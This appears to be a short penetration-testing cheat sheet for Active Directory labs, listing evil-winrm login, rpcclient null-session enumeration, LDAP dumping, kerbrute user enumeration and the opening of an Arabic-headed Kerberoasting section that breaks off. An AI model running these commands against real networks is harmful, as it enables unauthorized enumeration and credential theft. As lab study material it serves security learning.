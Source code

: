 ```
ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u username -p password



```
# rpcclient

```
1- rpcclient ~~~~~.LOCL -U USER 

2- rpcclient -U "" -N 10.10.10.161 
rpcclient $> enumdomusers 
rpcclient $> enumdomgroups 
rpcclient $> querygroup 0x200
rpcclient $> querydispinfo
```
#  LDAP

```shell
1-
ldapdomaindump -u '~~~~.thm' -p 'password' IP  


2-

ldapsearch -x -h 10.10.10.175 -s base namingcontexts

ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'


```
# kerbrute

```
./kerbrute userenum --dc IP -d lab.enterprise.thm /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -o users.txt

```


# Kerberoasting

#### **الخطوة 1: الحصول على Ticket باستخدام GetUserSPNs.py**

**GetUserSPNs.py** 
هو سكربت ضمن أدوات 
**Impacket**.
